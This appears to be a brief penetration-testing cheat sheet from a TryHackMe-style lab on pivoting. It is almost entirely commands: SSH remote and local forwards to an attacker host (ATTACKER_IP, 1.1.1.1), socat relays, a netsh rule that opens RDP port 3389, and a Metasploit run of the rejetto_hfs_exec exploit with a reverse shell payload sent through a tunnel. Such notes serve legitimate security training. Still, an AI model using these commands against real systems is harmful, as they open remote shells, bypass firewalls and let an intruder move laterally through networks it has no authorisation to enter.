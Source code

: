 # Tunnel with ssh

```
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N

munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```
# Local Port Forwarding

```
ssh <user>@<target1 ip> -L *:80:127.0.0.1:80 -N
```

# Tunnel to target with socat

```
socat TCP4-LISTEN:1234,fork TCP4:<target2 ip>:4321

# If a firewall is present
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

# Tunnel from target to local system

```
C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80
```

# Metasploit exploit with reverse tunnel

```
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

# Establishing an ssh tunnel from the foothold box

```
ssh tunneluser@ATTACKER_IP -R 8888:<target 2 ip>:80 -L *:6969:127.0.0.1:6969 -L *:9696:127.0.0.1:9696 -N
```

